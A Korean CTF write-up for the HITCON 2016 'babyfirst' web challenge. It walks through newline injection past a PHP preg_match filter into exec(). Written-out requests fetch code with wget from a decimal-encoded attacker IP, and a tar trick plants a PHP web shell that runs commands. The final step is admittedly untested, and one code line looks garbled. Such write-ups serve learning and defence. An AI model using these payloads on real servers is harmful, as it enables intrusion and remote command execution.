 ============================================================================================================
[2016_hitcon] [WEB] babyfirst
============================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="index.php?args[]=a%0a&args[]=touch&args[]=test",arrowhead="normal"];
        step3 -> step2[label="test file create",arrowhead="normal"];
        step4 -> step5[label="index.php?args[]=a%0a&args[]=wget&args[]=3232235536",arrowhead="normal"];
        step7 -> step6[label="@solve",arrowhead="normal"];
    }

|

취약점 존재 여부 확인
============================================================================================================

- GET 페이지 취약점
- GET 파라미터: args
- preg_match

.. code-block:: php

    <?php
        highlight_file(__FILE__);
        $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
        if ( !file_exists($dir) )
            mkdir($dir);
        chdir($dir);
        $args = $_GET['args'];
        for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
        }
        exec("/bin/orange" . implode(" ", $args));
    ?>

|

Array 취약점
============================================================================================================

- args[]에 문자열 이외에는 값을 입력하지 못하도록 preg_match를 걸어놨습니다.
- args[] 문자열 끝에 %0a(LF)를 넣을 수 있습니다.
- touch 명령어로 파일 생성을 할 수 있습니다.

.. code-block:: console
    
    http://52.68.245.164/index.php?
    args[]=a%0a&
    args[]=touch&
    args[]=test

    [실제 백엔드 동작]
    /bin/orange a%0a
    touch test

.. image:: ../_images/babyfirst-01_1.png
    :align: center



|

wget을 통한 우회
============================================================================================================

- wget으로 ip를 10진수 형식으로 변환해서 다운로드를 진행합니다.  (여기서 로컬 테스트라고 가정해서 192.168.0.16=>3232235536으로 설정했습니다.)

.. code-block:: text

    ※ ip를 10진수로 바꿔야 하는 이유?

    코드를 보시면 아시겠지만 문자열을 제외한 모든 입력에 대해 제한이 걸려있기 때문에 .을 쓸 수가 없습니다. 그렇기 때문에 10진수로 바꿔서 wget을 진행합니다.

- 외부 접속이 가능한 ip에 웹 서버를 구축하고, index.php 파일을 하나 만들어 올립니다.

.. code-block:: php

    <?php
        print shell_exec($_GET["cmd"]);
    ?>
 
- 그리고 wget으로 해당 ip(10진수)를 지정해주면 해당 파일이 sandbox/ip/ 폴더에 저장됩니다.

.. code-block:: console

    http://52.68.245.164/index.php?
    args[]=a%0a&
    args[]=wget&
    args[]=3232235536

    [실제 백엔드 동작]
    /bin/orange a%0a
    wget 3232235536

- 여기서부터 또 하나 관문에 부딫혔습니다. wget을 쓸 경우 index.html로 고정되어 다운로드 된다는 점입니다. 

.. code-block:: text
    
    ※ wget으로 다운로드 시 index.html로 고정되면 안되는 이유?

    html 페이지로는 쉘을 실행할 수 없기 때문에 php 코드로 저장이 가능해야 합니다.
 

|

tar를 통한 우회
============================================================================================================

- 그렇다면 대시(-)나 점(.)을 쓰지 않고 우회할 수 있는 리눅스 쉘 명령을 실행하는 방법이 뭐가 있을까요? (라이트업을 보니 wget 대신 busybox ftpget, twistd telnet 을 쓴 것도 있네요.) 
- php 소스가 있는 index.html을 새로 생성한 폴더에 다운로드한 후, 그 폴더를 tar를 통해 점이 없는 파일로 압축해서 점(.)을 우회하도록 합니다.

**index.html**

.. code-block:: bash
    
    <?
    phpfile_put_contents('shell.php', '    <?php    print shell_exec($_GET["cmd"]);    ?>');
    ?>

.. code-block:: text

    http://52.68.245.164/index.php?
    args[]=a%0a&
    args[]=mkdir&
    args[]=exploit%0a&
    args[]=cd&
    args[]=exploit%0a&
    args[]=wget&
    args[]=3232235536%0a&
    args[]=tar&
    args[]=cvf&
    args[]=archived&
    args[]=exploit%0a&
    args[]=php&
    args[]=archived

    /bin/orange a%0a
    mkdir exploit%0a
    cd exploit%0a
    wget 3232235536%0a
    tar cvf archived exploit%0a
    php archived


- 결국 대쉬(-)도 안쓰고 점(.)도 안쓰고 php 명령을 실행해서 shell.php 파일을 만들어내는군요.
- 테스트는 안해봤지만 아마 다음과 같이 쉘 명령을 실행할 수 있을 것으로 보입니다.

.. code-block:: bash

    http://52.68.245.164/sandbox/local_ip/shell.php?cmd=ls

|
